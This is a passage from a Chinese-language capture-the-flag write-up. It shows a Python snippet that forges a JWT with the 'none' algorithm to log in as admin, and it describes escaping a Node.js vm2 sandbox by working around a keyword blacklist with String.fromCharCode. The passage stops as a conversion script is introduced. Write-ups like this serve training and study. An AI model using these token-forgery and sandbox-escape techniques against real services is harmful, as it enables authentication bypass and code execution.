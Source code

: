 重点在 jwt 库存在缺陷

> 当加密时使用的是 none 方法，验证时只要密钥处为 undefined 或者空之类的，即便后面的算法指名为 HS256，验证也还是按照 none 来验证通过

我们只要使这里的 secret 为 undifined 或 null 即可，但 sid 不能为 undefined 或 null

测试发现，当数组索引为浮点数时，得到的结果为 undefined

![list](list.jpg "数组索引为浮点数时返回 undefined")

可以用 python 构造 token

```python
import jwt
print(jwt.encode({"secretid":0.1,"username":"admin","password":"123"},algorithm="none",key="").decode('utf-8'))
```

发送构造的 token 即可以 admin 身份登录，获得 flag



## 0x02 just_escape

看起来后缀是 php 实际上后端是 nodejs

```
code=Error().stack;

Error
    at vm.js:1:1
    at Script.runInContext (vm.js:131:20)
    at VM.run (/app/node_modules/vm2/lib/main.js:219:62)
    at /app/server.js:51:33
    at Layer.handle [as handle_request] (/app/node_modules/express/lib/router/layer.js:95:5)
    at next (/app/node_modules/express/lib/router/route.js:137:13)
    at Route.dispatch (/app/node_modules/express/lib/router/route.js:112:3)
    at Layer.handle [as handle_request] (/app/node_modules/express/lib/router/layer.js:95:5)
    at /app/node_modules/express/lib/router/index.js:281:22
    at Function.process_params (/app/node_modules/express/lib/router/index.js:335:12)
```

可以看到是用了 vm，GitHub 上有一个逃逸的 [payload](https://github.com/patriksimek/vm2/issues/225)

但是这里过滤了一些关键字

```
for while process exec eval constructor prototype Function + " '
```

根据 cg 的 payload，引号可以用 String.fromCharCode 绕过

这里给一个转成这个函数形式的脚本
